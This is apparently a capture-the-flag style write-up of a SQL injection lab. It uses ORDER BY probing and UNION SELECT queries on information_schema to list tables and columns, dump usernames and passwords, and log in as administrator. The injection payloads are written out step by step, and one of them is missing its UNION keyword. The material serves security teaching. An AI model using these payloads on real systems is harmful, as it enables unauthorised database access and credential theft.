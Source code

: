 ## Lab Description :

![image](https://user-images.githubusercontent.com/67383098/234173772-d674eb97-c3c0-4f6d-99b2-3628123f4f5b.png)

## Solution :

Most database types (with the notable exception of Oracle) have a set of views called the `information schema` which provide information about the database.

You can query `information_schema.tables` to list the tables in the database:

```sql
SELECT * FROM information_schema.tables
```
O/P shows the columns present in it

```sql
SELECT * FROM information_schema.columns WHERE table_name = 'Users'
```

## Steps

![image](https://user-images.githubusercontent.com/67383098/234173842-080419e3-bb62-4507-b6c2-4d30888d4ce8.png)


#### Determine the number of columns -

**ORDER BY 3**

```sql
SELECT * FROM someTable WHERE category = '<CATEGORY>' ORDER BY 3--
```

![image](https://user-images.githubusercontent.com/67383098/234173744-116b627a-2c8d-4651-bc3c-7ed6140df288.png)

#### Determine wich column contains text data

```sql
SELECT * FROM someTable WHERE category = '<CATEGORY>' SELECT 'abc','def'--
```
Both the columns contain text data.

![image](https://user-images.githubusercontent.com/67383098/234236358-f0e2e77a-08de-4d4a-99a3-782ffa80f5ae.png)

### List the database contents

#### List tables -

```sql
SELECT * FROM someTable WHERE category = '<CATEGORY>' UNION SELECT table_name,NULL FROM information_schema.tables--
```

We get list of all the available tables

![image](https://user-images.githubusercontent.com/67383098/234243537-2f93b162-2198-4cb0-b252-33830667abef.png)

![image](https://user-images.githubusercontent.com/67383098/234248758-0f64078c-cf1c-495b-a685-e4627826101b.png)


#### List columns -

```sql
SELECT * FROM someTable WHERE category = '<CATEGORY>' UNION SELECT column_name,NULL FROM information_schema.columns WHERE table_name='users_fhlhke'--
```

We get these columns

![image](https://user-images.githubusercontent.com/67383098/234249287-a2b9687b-5454-43b2-950a-081b9d233dea.png)

columns - `username_yoqrkg` & `password_btqiad`

#### Retreive information from the columns username_yoqrkg & password_btqiad from the table users_fhlhke -


```sql
SELECT * FROM someTable WHERE category = '<CATEGORY>' UNION SELECT username_yoqrkg,password_btqiad FROM users_fhlhke--
```
Now we get the username and password of all users.

![image](https://user-images.githubusercontent.com/67383098/234250737-85288dcd-13a8-406b-82c7-1198ab231fb6.png)

carlos - `hfs0tq3xzvdz2awja6bn`
wiener - 7qsyjg4sbbxt16easf7l``
administrator - `a80zs35scefit206tw5s`

Now login as administrator,

![image](https://user-images.githubusercontent.com/67383098/234251558-ea8c0529-f717-43eb-8a66-507fc790501a.png)

















